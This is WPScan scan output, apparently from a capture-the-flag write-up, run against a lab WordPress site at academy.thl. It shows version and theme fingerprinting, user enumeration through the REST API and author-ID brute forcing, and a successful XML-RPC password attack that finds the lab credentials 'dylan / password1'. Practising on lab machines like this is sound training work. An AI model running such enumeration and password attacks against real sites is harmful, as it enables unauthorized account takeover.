 ```python

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 |  - http://academy.thl/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 |  - http://academy.thl/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://academy.thl/wordpress/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.1 (up to date)
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://academy.thl/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://academy.thl/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://academy.thl/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] dylan
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://academy.thl/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - dylan / password1                                                                                                                                                                               
Trying dylan / password1 Time: 00:00:00 <                                                                                                                            > (30 / 14344422)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: dylan, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jun 16 15:09:54 2024
[+] Requests Done: 55
```